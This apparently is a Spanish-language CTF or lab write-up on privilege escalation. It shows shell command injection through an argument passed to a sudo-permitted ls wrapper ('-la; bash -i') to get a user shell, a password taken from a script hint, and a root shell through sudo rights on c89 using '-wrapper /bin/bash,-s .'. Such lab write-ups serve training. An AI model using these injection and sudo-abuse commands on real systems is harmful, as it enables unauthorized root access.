 Si intentamos ejecutarlo:
```bash
sudo -u metadata /home/codebad/code whoami
```

Nos retorna lo siguiente:
```bash
/bin/ls: cannot access 'whoami': No such file or directory
```

Vemos que se esta ejecutando el comando **ls** por detras y nos pide como **input** una ruta o algo similar:
Si le pasamos una ruta vemos que funciona:
```bash
sudo -u metadata /home/codebad/code /home/metadata/
```

Nos lista su contenido de ese directorio:
```bash
pass.txt  user.txt
```

El contenido aun no lo podemos ver ya que solo aplica un **ls** pero aplicando concatenacion de comandos intentaremos colar un segundo comando:
```bash
sudo -u metadata /home/codebad/code /home/metadata/ && 'whoami'
```

Tenemos exito al ejecutar comandos asi que migramos de usuario:
```bash
# Comando para escalar al usuario: ( metadata )
sudo -u metadata /home/codebad/code '-la; bash -i'
```

###### Usuario `[ metadata ]`:
Tenemos en la siguiente ruta un ejecutable:
```bash
/usr/local/bin/metadatosmalos
```

Revisando su contenido:
```bash
#!/bin/bash

#chmod u+s /bin/bash
whoami | grep 'pass.txt'
```

Ahora probamos es mismo nombre del archivo  como contrasena para este usuario
```bash
sudo -l # ( metadatosmalos )

User metadata may run the following commands on fca549ab3456:
    (ALL : ALL) /usr/bin/c89 # Tenemos una via potencial de migrar a root
```

Explotando el binario
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/c89 -wrapper /bin/bash,-s .
```

---